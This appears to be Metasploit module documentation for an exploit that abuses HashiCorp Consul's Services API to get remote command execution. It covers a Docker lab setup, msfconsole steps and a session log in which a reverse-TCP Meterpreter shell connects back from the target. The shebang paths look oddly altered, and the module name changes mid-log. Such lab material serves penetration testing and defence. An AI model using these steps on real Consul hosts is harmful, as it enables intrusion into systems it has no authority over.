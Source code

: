 ## Vulnerable Application

[HashiCorp Consul](https://www.consul.io/) with `-enable-script-checks` configuration flag set to true, or running version 0.9.0 or earlier, with Consul API available on an interface that can be accessed over the network.

### Description

This module exploits Hashicorp Consul's Services API to gain remote command execution on a Consul node.

The exposure of the Services API depends on the `enable_script_checks` option. This option is opt-in for Consul nodes operators.

### Test Setup

The following bash script can be used to setup a testing environment with Docker:

```
#!/data/data/hilled.pwnterm/files/usr/bin/sh

echo "[+] Launching consul instances..."
BOOTSTRAP_ID=`docker run -p8301:8301 -d --name=consul_bootstrap_server consul:1.0.7 agent -server -client=0.0.0.0 -bootstrap -data-dir /tmp/consul`
sleep 2
BOOTSTRAP_IP=`docker inspect --format '{{ .NetworkSettings.IPAddress }}' $BOOTSTRAP_ID`
docker run -d --name=consul_client_1 -e 'CONSUL_LOCAL_CONFIG={"leave_on_terminate": true, "enable_script_checks":true, "disable_remote_exec":false}' consul:1.0.7 agent -ui -client=0.0.0.0 -retry-join=$BOOTSTRAP_IP
echo "[+] Checking members..."
docker exec -t consul_bootstrap_server consul members -http-addr="$BOOTSTRAP_IP:8500"
```

You should observe something similar to the excerpt below when running the script:

```
[+] Launching consul instances...
138b09eff12867fcc436b8f5d6366c5aebf3be54864789a675e133a865d436bf
[+] Checking members...
Node          Address          Status  Type    Build  Protocol  DC   Segment
36e14072dec5  172.17.0.1:8301  alive   server  1.0.7  2         dc1  <all>
138b09eff128  172.17.0.2:8301  alive   client  1.0.7  2         dc1  <default>
```

The following bash script can be used to stop and destroy **all your consul containers** (so be careful if you use consul containers for other things at the same time):

```
#!/data/data/hilled.pwnterm/files/usr/bin/sh
for h in `sudo docker ps -a | grep consul | cut -d' ' -f1`; do sudo docker stop $h && sudo docker rm $h; done
```

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Launch a Consul cluster with the provided bash script
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/consul_service_exec`
  4. Do: `set RHOST 172.17.0.2`
  5. Do: `set RPORT 8500`
  6. Do: `check`. The target should appear vulnerable.
  7. Do: `set payload` with the payload of your choosing.
  8. Do: `set LHOST 172.17.42.1` (docker0 gateway IP)
  9. Do: `run`
  10. You should get a shell.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Docker [consul](https://hub.docker.com/_/consul/) container target:

```
msf5 > use exploit/multi/misc/consul_service_exec
msf5 exploit(multi/misc/consul_service_exec) > set RHOSTS 172.17.0.4
RHOSTS => 172.17.0.4
msf5 exploit(multi/misc/consul_service_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/misc/consul_service_exec) > set LHOST 172.17.42.1
LHOST => 172.17.42.1
msf5 exploit(multi/misc/consul_service_exec) > check
[+] 172.17.0.4:8500 The target is vulnerable.
msf5 exploit(multi/misc/consul_rexec_exec) > run

[*] Started reverse TCP handler on 172.17.42.1:4444
[*] Creating service 'BBBDX'
[*] Service 'BBBDX' successfully created.
[*] Waiting for service 'BBBDX' script to trigger
[*] Sending stage (861480 bytes) to 172.17.0.4
[*] Removing service 'BBBDX'
[*] Command Stager progress - 115.73% done (883/763 bytes)

meterpreter > sysinfo
Computer     : 172.17.0.4
OS           :  (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...
[*] 172.17.0.4 - Meterpreter session 1 closed.  Reason: User exit
```
